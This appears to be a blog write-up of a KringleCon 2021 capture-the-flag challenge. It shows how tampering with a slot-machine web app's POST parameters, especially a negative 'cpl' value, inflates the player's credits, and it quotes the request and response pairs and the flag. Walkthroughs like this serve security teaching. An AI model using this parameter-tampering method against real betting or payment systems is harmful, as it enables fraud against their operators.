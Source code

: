 ```yaml
---
tags:
  - post
  - kringlecon2021Post
title: Slot Machine Investigation
layout: post.njk
---
```

# Introduction
This challenge is all about exploiting Jacks slotsystem. Everything can be done in browser and I really reccommend using firefox, simply becuase the interface is less confusing.
The description for this challenge is:
*Test the security of Jack Frost's slot machines. What does the Jack Frost Tower casino security team threaten to do when your coin total exceeds 1000? Submit the string in the server data.response element. Talk to Noel Boetie outside Santa's Castle for help.* 
So the flag here is what the troll tells you when you reach over 1000 coins.

# Reconnaissance
The webpage for the slotmachines is amusing. It has no fields you can enter data. You can contorl how much you bet and the bet level, other than that you may spin/autospin or check how much each each troll is worth. With no possibility to enter or manipulate the values from the gui, lets check out the inspector tools.
I want to head on over to the networks tools just to check out the requests my computer is sending.
Appart from the header, I see that this is my payload
```
POST
betamount=1&numline=20&cpl=0.1

RESPONSE
{"success":true,"data":{"credit":98,"jackpot":0,"free_spin":0,"free_num":0,"scaler":0,"num_line":20,"bet_amount":1,"pull":{"WinAmount":0,"FreeSpin":0,"WildFixedIcons":[],"HasJackpot":false,"HasScatter":false,"WildColumIcon":"","ScatterPrize":0,"SlotIcons":["icon8","icon6","icon2","icon7","icon9","icon10","icon10","icon4","icon2","icon8","icon6","icon6","icon9","icon6","icon10"],"ActiveIcons":[],"ActiveLines":[]},"response":"Keep playing!"},"message":"Spin success"}
```
Ok so a legitmiate request has the betamount, number of lines we want to play with, and a cpl that I have no idea what does.
But the response tells us that the server pulls the following from its own end, the win amount, free spins, if I have won the jackpot and what trolls appear.

# Enumeration
I tried to combine different fields to try to manipulate the server to give me prizes I didn't have, such as:
```
POST
betamount=1&numline=20&cpl=0.1&HasJackpot=TRUE
Response
200 OK
{"success":true,"data":{"credit":96.5,"jackpot":0,"free...
(It ignored my jackpot)

POST
betamount=1&numline=20&cpl=0.1&credits=1000000
Response
200 OK
{"success":true,"data":{"credit":96.5,"jackpot":0,"free...
(It ignored my credits)

POST
betamount=1&numline=20&cpl=0.1&WinAmount=10000
Response
200 OK
{"success":true,"data":{"credit":96.5,"jackpot":0,"free...
(It ignored my WinAmount)

POST
betamount=10000&numline=20&cpl=0.1
RESPONSE
404 not enough credits

POST
betamount=-10&numline=20&cpl=0,1
RESPONSE
404 invalid betamount

POST
betamount=1&numline=200000&cpl=0.1
RESPONSE
404 not enough credits

POST
betamount=1&numline=-20&cpl=0,1
RESPONSE
200 OK
{"success":true,"data":{"credit":96.5,"jackpot":0,"free...
(It gave me nothing)

POST
betamount=1&numline=20&cpl=99999
RESPONSE
404 not enough credits

POST
betamount=1&numline=20&cpl=-100
RESPONSE
200 OK
{"success":true,"data":{"credit":2096.5,"jackpot":0,"free_...
```
Hold up, the last request gave us alot of credits, why?

# The vulneralbility
CPL didn't have the same checks as the others, becuase pre spin it doesn't affect our startcredits. I don't know exactly what it does, but it looks like it is always multiplied with the numline value and affects your total credits. 
Anyway, the flag: 
```
{"success":true,"data":{"credit":2096.5,"jackpot":0,"free_spin":0,"free_num":0,"scaler":0,"num_line":20,"bet_amount":1,"pull":{"WinAmount":-3000,"FreeSpin":0,"WildFixedIcons":[],"HasJackpot":false,"HasScatter":false,"WildColumIcon":"","ScatterPrize":0,"SlotIcons":["icon3","icon9","icon6","icon4","icon2","icon8","icon1","icon2","icon9","icon6","wild","wild","icon3","wild","icon9"],"ActiveIcons":[1,12,13,14],"ActiveLines":[20]},"response":"I'm going to have some bouncer trolls bounce you right out of this casino!"},"message":"Spin success"}
```
**"I'm going to have some bouncer trolls bounce you right out of this casino!"**
